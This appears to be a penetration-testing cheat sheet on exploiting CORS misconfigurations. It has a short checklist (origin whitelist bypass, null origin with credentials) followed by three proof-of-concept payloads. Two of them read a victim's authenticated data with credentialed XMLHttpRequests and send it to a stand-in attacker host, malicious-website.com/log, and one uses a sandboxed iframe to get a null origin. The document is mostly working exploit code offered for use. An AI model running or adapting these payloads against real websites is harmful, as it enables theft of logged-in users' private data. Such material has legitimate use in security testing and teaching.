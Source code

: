- [ ] Notice CORS Access-Control-Allow-Credentials: true
- [ ] Change Origin
	- [ ] Whitelist origin bypass
	- [ ] Null Origin + Access-Control-Allow-Credentials
POC
```html
<html>
<body>
<h2>CORS POC Exploit</h2>

<div id="demo">
	<button type="button" onclick="cors()">Exploit Click Here</button>
</div>
<script>
function cors() {
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
			document.getElementById("demo").innerHTML = alert(this.responseText);
		}
	};
	xhttp.open("GET", "https://victim.com/", true);
	xhttp.withCredentials = true;
	xhttp.send()
}
</script>
</body>
</html>
```
POC
```javascript
// Sample script on malicious website 
var req = new XMLHttpRequest();
req.onload = reqListener; 
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true; 
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```
Null Origin + Access-Control-Allow-Credentials Bypass using Iframe
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() { 
		location='malicious-website.com/log?key='+this.responseText; 
	}; 
</script>">
</iframe>
```